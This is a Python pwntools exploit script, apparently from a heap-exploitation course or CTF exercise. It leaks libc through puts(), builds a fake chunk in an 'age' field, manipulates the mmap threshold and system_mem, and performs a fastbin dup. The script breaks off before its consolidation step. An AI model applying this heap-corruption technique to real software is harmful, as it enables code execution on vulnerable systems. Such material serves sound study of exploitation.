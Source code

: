 ```python

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1;

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# Leverage a fastbin dup to link the fake "age" chunk into the 0x20 fastbin.
dup = malloc(0x18, b"A"*8)
safety = malloc(0x18, b"B"*8)

free(dup)
free(safety)
free(dup)

malloc(0x18, pack(elf.sym.user)) # Address of fake chunk.


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

```